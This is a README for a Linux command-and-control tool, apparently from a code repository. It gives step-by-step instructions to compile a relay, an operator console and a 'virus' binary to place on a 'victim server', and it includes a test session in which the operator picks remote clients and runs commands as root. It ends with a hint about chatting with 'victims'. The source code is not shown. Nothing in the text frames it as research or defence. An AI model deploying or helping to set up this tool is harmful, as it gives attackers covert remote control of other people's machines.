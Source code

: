 # Linux Server C2 Controller



**Step 1:**

Replace the ip address "192.168.80.132" in the tcsl.cpp and host.cpp as your server ipv4 address



**Step 2:**

Copy tcsl.cpp to your Linux Server

virus.cpp to your victim server

host.cpp to your local machine as control side

and then compile:

g++ tcsl.cpp -o tcsl

g++ host.cpp -o host

g++ virus.cpp -o server



**Step 3: **

Open terminals and run the command seperately:

./tcsl

Support any amounts of Clients' connections

the Host and Client is auto-recognized:

./virus

./host



**Step 4:**

Please use 'hs' followed with the client numbers you pick.

For example: 'hs 1'

Use 'hh' to check the connected clients.



**Step 5:**

Enjoy your commands in the host terminal and control your client as terminal. 
#

# Test

Connected to the server.

No client connected.

┌──(root♪hr0g) - [~]

└─# ls

Please use 'hs' followed with the client numbers you pick.

For example: 'hs 1'

Use 'hh' to check the connected clients.

┌──(root♪hr0g) - [~]

└─# hh

Client 1:  Ip: 223.104.76.166

┌──(root♪hr0g) - [~]

└─# hs 1

Client 1 selected.


┌──(root♪hr0g) - [~1]

└─# pwd

/home/kali/Desktop

┌──(root♪hr0g) - [~1]

└─# exit

Exited.

Client 1:  Ip: 223.104.76.166

┌──(root♪hr0g) - [~]

└─# hs 1

Client 1 selected.

┌──(root♪hr0g) - [~1]

└─# whoami

root


┌──(root♪hr0g) - [~1]

└─# hs 2

Client 2 selected.

┌──(root♪hr0g) - [~2]

└─# hh

Client 1:  Ip: 223.104.76.166

Client 2:  Ip: 223.104.76.166

┌──(root♪hr0g) - [~2]

└─# exit

Exited.

Client 1:  Ip: 223.104.76.166

Client 2:  Ip: 223.104.76.166

┌──(root♪hr0g) - [~]

└─# hs 1

Client 1 selected.

┌──(root♪hr0g) - [~1]

└─# exit

Exited.

Client 1:  Ip: 223.104.76.166

Client 2:  Ip: 223.104.76.166

┌──(root♪hr0g) - [~]

└─# ls

Please use 'hs' followed with the client numbers you pick.

For example: 'hs 1'  

Use 'hh' to check the connected clients.

┌──(root♪hr0g) - [~]

└─#

Hint: use 'chatmode' to communicate with victims(under development)
